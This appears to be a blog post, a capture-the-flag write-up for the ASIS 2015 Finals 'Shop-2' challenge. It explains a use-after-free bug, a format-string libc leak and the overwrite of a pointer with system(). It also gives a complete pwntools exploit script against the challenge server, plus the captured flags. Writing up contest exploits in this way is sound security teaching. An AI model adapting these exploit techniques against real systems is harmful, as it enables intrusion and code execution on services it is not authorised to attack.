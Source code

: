 ```yaml
---
layout: post
title: ASIS 2015 Finals: Shop-2
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


The second part of the challenge was exploiting a UAF (use-after-free) vulnerability.

This could be triggered if the admin deleted a "Bragisdumu" (btw what is a Bragisdumu!? :D).

But there were some restrictions, for example: the admin could only delete items if there were no stock of it, so we had to buy them first. But you could not buy any amount of them, only 16, so you had to buy the Knight Rider one.

Although the program tried to nullify the object, but it did not nullify the pointer, but the active field of the pointed object. And then deleted the object. So it did not trigged the vulnerability by itself, you also had to use a long enough username + password.

To make the exploit stable I had to leak some addresses. To do this I overwrite the whole item structure until the ptr value:

{% highlight %}
00000000 Item            struc ; (sizeof=0x88)   ; XREF: .data:globItemStructs9r
00000000 idx             dd ?                    ; XREF: .data:globItemPtrs16o
00000004 inited          db ?
00000005 name            db 100 dup(?)
00000069 mostPopular     db ?
0000006A align1          db 6 dup(?)
00000070 price           dq ?
00000078 stock           dd ?
0000007C align2          dd ?
00000080 ptr             dq ?
00000088 Item            ends
{% endhighlight %}

This way the address of the KnightRider preview function is leaked out, then I logged out and logged in with username which overwrite the preview function call (0x1275) to printf in the PLT (0xda0). As the parameter for this call is the Item structure's address which is fully controlled by me I could sent in a format string which contained a lot of "%p"'s, thus leaking out the libc base address from the stack (among other things).

Then in the next round I simple overwrite the pointer with the calculated system address and got a shell :)

{% highlight %}
The flag was: ASIS{5249b4cc1527739c57fbd04ab14292ca}
{% endhighlight %}

{% highlight python %}
#!/usr/bin/env python
from pwn import *
import re

adminPass = "ASIS{304b0f16eb430391c6c86ab0f3294211}"

r = remote('185.106.120.220', 1337)

r.send("guest\nguest\n2\n3\n2\n3\n8\nadmin\n"+adminPass+"\n5\n3\n8\nguest\nguest"+"A"*31+"\x01"+"C"*267+"\n3\n")
result = r.recvuntil("your orders?")
KnightRiderAddrStr = re.search('CCCC+(.*?), price', result, re.DOTALL).group(1) + '\x00\x00'
print 'KnightRider str = %r' % KnightRiderAddrStr
KnightRiderAddr = u64(KnightRiderAddrStr)
printfAddr = KnightRiderAddr - 0x1275 + 0xda0
print 'KnightRider addr = %x' % KnightRiderAddr
print 'printf addr = %x' % printfAddr

fs="%p|"*30;
r.send("0\n8\nguest\nguest"+"A"*31+"\x01|"+fs+"D"*(122-len(fs))+p64(printfAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
leaks = r.recvline().split('|')
print leaks
baseLeak = int(leaks[4][2:], 16)
print "leak = %x" % baseLeak
systemAddr = baseLeak - 0x7ffff7dd4060 + 0x7ffff7a5b640
print "system = %x" % systemAddr

r.send("8\nguest\nguest"+"A"*27+"sh\x00\x00\x01"+"C"*123+p64(systemAddr)+"\n3\n1\n")
r.recvuntil("your orders?")
r.send('cat flag\n')
print 'Flag =' + r.recvline()
r.interactive()
{% endhighlight %}